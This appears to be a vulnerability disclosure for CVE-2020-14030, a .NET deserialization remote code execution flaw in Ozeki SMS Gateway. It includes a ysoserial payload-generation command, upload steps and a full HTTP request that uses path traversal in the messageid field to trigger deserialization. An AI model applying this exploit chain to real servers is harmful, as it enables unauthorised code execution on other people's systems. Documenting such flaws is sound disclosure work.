




# CVE-2020-14030: Ozeki SMS Gateway Remote Code Execution via .NET Deserialization

The Ozeki SMS Gateway software, versions 4.17.6 and below, stores SMSs in .NET serialized format on the filesystem.
<br/>
By generating and writing to the disk malicious .NET serialized files, an attacker can trick Ozeki into deserializing them resulting in arbitrary code execution.
<br/>

### Requirements:

This vulnerability requires:
- Access to an Ozeki Web Application administration interface with "admin" credentials

### Proof Of Concept:

We generate the malicious deserialization payload using the YSoSerial.NET tool with the following command:

```ysoserial.exe -f BinaryFormatter -c 'whoami > C:\Windows\Temp\Deserialization.txt' -g DataSet```

<strong>Note:</strong> We will need to decode the payload if it is in base64 form to obtain a functional .NET serialized file.
<br/>
<strong>Note 2:</strong> When deserializaing the payload the command that will be executed will be:
```whoami > C:\Windows\Temp\Deserialization.txt```

Upload the serialized payload file to the server (via "Import Contacts" or Voice SMS Attachment):




We can view the event logs in order to confirm that the file was successfully uploaded to "C:\TEMP\DataSet.txt":



And indeed, if we look directly on the file system we can find the desired file containing our desired serialized payload:


Now, we use a path traversal in the “Move SMS Folder” functionality to trick Ozeki into deserializing the file.
<br/>
This functionality does 3 things:
- Takes the "messageid" of an SMS file in an unsafe manner so we can use a "..\" path traversal to point it to a file outside of the user's SMS boxed (Ex. inbox, outbox, sent, etc.)
- Tries to move the file to the desired box, but does not succeed due to the path traversal
- Reads and deserializes the file in order to display it in the web interface.

This last step is what interest us the most as during the deserialization phase our malicious payload will result in code execution.

Request:
```
POST /default HTTP/1.1
Host: <IP>:9501
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
Cookie: usrckenc=b3c***TRUNCATED***04c

layout=MENUVIEW&MAIN=USERMAIN&MENU=USERMENU&user=admin&folder=outbox&movetofolder=sent&messageid_..\..\..\..\..\..\..\..\Windows\Temp\DataSet.b64.txt=on
```

If all the above steps were performed correctly we will see the following results:
- The "DataSet.txt.error" file will appear signifying that the path traversal was successful
- The above command was executed successfully and the file "Deserialization.txt" was created



### Additional Resources:

[YSoSerial.NET](https://github.com/pwntester/ysoserial.net)
